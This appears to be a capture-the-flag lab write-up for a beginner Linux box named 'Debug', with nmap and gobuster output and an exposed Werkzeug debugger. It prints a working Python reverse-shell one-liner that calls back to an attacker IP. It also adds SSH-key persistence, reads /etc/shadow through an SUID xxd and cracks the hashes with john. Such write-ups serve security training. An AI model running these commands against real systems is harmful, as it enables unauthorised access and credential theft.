 ```yaml
---
tags: [Beginner, Linux, Video]
title: Debug
created: '2020-07-03T16:52:15.246Z'
modified: '2020-10-02T17:40:48.816Z'
---
```


# Debug
- IP: `172.31.1.5`
- OS: `Linux`
## Enumeration
### Writeup
We find a page [console](http://172.31.1.5/console). That page shows the Werkzeug Debugger without a PIN, so we can run python commands on the server. We can get a reverse shell by entering: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

Our reverse shell returns and we build in some persistence by getting ssh access through our public key.

SUID is enabled on `xxd`, we can read any file with `xxd "/etc/shadow" | xxd -r`
We can then crack the hash with `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.5`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9e:84:e4:df:52:83:55:3f:90:43:d1:8e:4a:18:8b:0c (RSA)
|   256 f6:1a:89:b2:ca:57:7a:47:be:88:9b:3e:8f:e8:52:98 (ECDSA)
|_  256 01:f2:94:0a:d3:54:52:15:87:ae:73:bc:4d:70:6e:90 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Future Design
```
</details>

<details>
<summary>Gobuster</summary>

- `gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://172.31.1.5/ -x txt -o commands/gobuster-80-root`
```
/about (Status: 200)
/blog (Status: 200)
/console (Status: 200)
/contact (Status: 200)
/server-status (Status: 403)
/services (Status: 200)
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
